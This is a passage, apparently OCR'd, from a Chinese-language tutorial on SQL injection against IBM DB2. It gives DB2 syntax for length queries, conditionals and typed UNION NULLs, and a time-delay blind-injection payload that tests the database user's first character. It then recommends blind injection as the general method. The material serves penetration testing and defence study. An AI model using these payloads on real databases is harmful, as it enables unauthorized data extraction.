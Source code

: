 获取长度：

```

#!sql

SELECT LENGTH(NAME) FROM SYSIBM.SYSCOLUMNS WHERE TBNAME='VOTE' ORDER BY NAME DESC FETCH FIRST 1 ROWS ONLY

```

条件语句：

```

#!sql

SELECT CASE WHEN (1=1) THEN 'AAAAAAAAAA' ELSE 'BBBBBBBBBB' END FROM sysibm.sysdummy1

```

上述语句将返回字符串’AAAAAAAAAA’

时间延迟：

```

#!sql

and (SELECT count(*) FROM sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (SELECT ascii(substr(user,1,1)) FROM sysibm.sysdummy1)=68

```

上述语句若 user 的第一个字符的 ASCII 码为 68 将造成延时

UNION 操作符：

DB2 支持在 SELECT 语句中使用 UNION 操作符，UNION 的各列必须类型相同才不会报错。

且不能直接使用`SELECT … FROM … UNION SELECT NULL, NULL … FROM …`的方法。DB2 在 SELECT 中使用 NULL 需要指定类型，如下：

```

#!sql

select ... cast(NULL as int) as column_A, cast(NULL as varchar(128)) as column_B, ... FROM ...

```

多语句查询：

DB2 不支持形如 statement1; statement2 形式的多语句查询

DB2 的 SQL 注入方法

--------------

对 DB2 进行 SQL 注入通用的方法是使用盲注，利用上两个小结的内容通过盲注获取数据库信息。
